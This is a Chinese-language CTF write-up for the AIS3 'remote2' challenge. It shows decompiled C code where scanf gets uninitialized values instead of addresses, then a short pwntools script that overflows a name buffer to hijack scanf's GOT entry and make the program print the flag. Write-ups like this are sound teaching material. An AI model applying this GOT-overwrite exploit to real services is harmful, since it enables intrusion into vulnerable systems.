 # remote2

反編譯後的原始碼如下：

``` c
char buf1[0x2000], buf2[0x2000];

int ask_secret()
{
  int secret1; // [sp+18h] [bp-10h]@0
  int secret2; // [sp+1Ch] [bp-Ch]@0

  printf("Enter secret #1: ");
  fflush(stdout);
  scanf("%d", secret1);
  printf("Enter secret #2: ");
  fflush(stdout);
  scanf("%d", secret2);
  puts("Checking ...");
  if ( secret1 != 0xDEADBEEF || secret2 != 0x2016A153 )
  {
    puts("Registration failed!");
    exit(0);
  }
  puts("Login success!");
  return system("/bin/cat flag.txt");
}

void ask_name()
{
  char buffer[100]; // [sp+18h] [bp-70h]@1

  printf("Show me your name: ");
  fflush(stdout);
  scanf("%100s", buffer);
  printf("Welcome %s!\n\n", buffer);
}

int main()
{
  char *home_path; // [sp+1Ch] [bp-4h]@1

  home_path = getenv("HOME");
  if ( home_path ) chdir(home_path);
  setvbuf(stdin, buf1, 1, 0x2000u);
  setvbuf(stdout, buf2, 1, 0x2000u);
  puts("Welcome to AIS3 online registration system!\n");
  ask_name();
  ask_secret();
  puts("Good job!");
  return 0;
}
```

這題主要的問題是，`scanf` 的時候沒有使用 `&` 取 address，並且變數未初始化，因此可控制

`ask_name` 時， `&buffer[96]` == `&secret1`，在 `secret1` 填入 `scanf.GOT` 做 GOT hijack

``` python
from pwn import *

io = remote('quiz.ais3.org', 53125)

io.recvuntil('Show me your name: ')
io.sendline('A' * 96 + p32(0x0804A038))
io.recvuntil('Enter secret #1: ')
io.sendline(str(0x080486e5))
io.recvuntil('Enter secret #2: ')
print io.recv()
```

`ais3{don't_IGNORE_cOmPiLEr_WARNINGS!!!}`
